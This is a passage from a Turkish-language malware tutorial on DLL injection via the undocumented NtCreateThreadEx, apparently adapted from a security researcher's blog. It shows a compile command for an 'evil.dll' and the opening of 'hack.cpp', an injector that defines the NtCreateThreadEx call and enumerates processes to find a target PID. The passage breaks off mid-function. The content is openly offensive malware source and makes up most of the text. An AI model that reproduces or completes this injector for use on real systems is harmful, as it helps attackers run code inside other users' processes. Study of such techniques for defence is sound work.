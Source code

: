 ```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.c
```

![dll injection 2](./images/29/2021-12-07_09-48.png){width="80%"}    

Daha sonra, zararlı yazılımımızın kaynak koduna bakalım (`hack.cpp`):    

```cpp
/*
hack.cpp
DLL injection via undocumented NtCreateThreadEx example
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/12/06/malware-injection-9.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>
#include <vector>

#pragma comment(lib, "advapi32.lib") 

typedef NTSTATUS(NTAPI* pNtCreateThreadEx) (
  OUT PHANDLE hThread,
  IN ACCESS_MASK DesiredAccess,
  IN PVOID ObjectAttributes,
  IN HANDLE ProcessHandle,
  IN PVOID lpStartAddress,
  IN PVOID lpParameter,
  IN ULONG Flags,
  IN SIZE_T StackZeroBits,
  IN SIZE_T SizeOfStackCommit,
  IN SIZE_T SizeOfStackReserve,
  OUT PVOID lpBytesBuffer
);

// get process PID
int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
```
